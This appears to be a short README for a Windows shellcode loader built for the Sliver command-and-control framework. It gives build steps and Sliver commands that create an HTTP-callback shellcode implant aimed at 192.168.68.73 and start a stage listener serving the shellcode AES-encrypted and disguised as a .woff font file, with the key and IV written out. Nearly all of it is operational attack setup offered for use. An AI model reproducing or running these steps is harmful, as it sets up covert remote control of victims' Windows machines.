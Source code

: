 # Building
* replace the values in `windows_build.ps1`
* run the powershell script to build for windows (the only place this works right now)

# Sliver steps
```shell
# create the shellcode profile with HTTP as the transport
profiles new --http 192.168.68.73 --format shellcode win-shell-http
# create the stage listener which serves the shellcode as a .woff on port 8080
stage-listener --url http://192.168.68.73:8080 --profile win-shell-http --aes-encrypt-key oPqVTb-ieogwPT94 --aes-encrypt-iv lbzPx4uGUpAx7Wap
# start the http listener for the http connection
http
```